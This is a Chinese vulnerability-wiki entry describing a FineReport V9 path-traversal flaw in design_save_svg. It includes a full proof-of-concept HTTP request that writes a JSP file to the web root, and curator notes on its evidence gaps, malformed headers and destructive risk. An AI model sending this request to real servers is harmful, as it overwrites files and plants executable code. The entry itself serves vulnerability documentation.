

# FineReport design_save_svg filePath遍历覆盖写入

## 条目说明

- 对象与具体问题：FineReport；design_save_svg filePath遍历覆盖写入
- 版本、配置及部署条件：V9，WebReport目录/JSP解析条件
- 认证与权限前提：双JSESSIONID，是否登录未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- Content-Type后空行使Content-Length落入正文，HTTP结构损坏；正文JSON却text/xml是否端点容忍需核
- 两个同名SessionCookie产生歧义，不能从本例推匿名写入
- update.jsp可能覆盖现有文件，需标破坏性；只有请求/一截图，无写后执行响应
- 缺源码/补丁范围，不与V8插件移动链合并

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

帆软 V9 存在任意文件覆盖，导致攻击者可以任意文件上传

### 漏洞影响

```
帆软 V9
```

### 漏洞复现



```http
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp  HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=DE7874FC92F0852C84D38935247D947F; JSESSIONID=A240C26B17628D871BB74B7601482FDE
Connection: close
Content-Type:text/xml;charset=UTF-8

Content-Length: 74

{"__CONTENT__":"<%out.println(\"Hello World!\");%>","__CHARSET__":"UTF-8"}
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
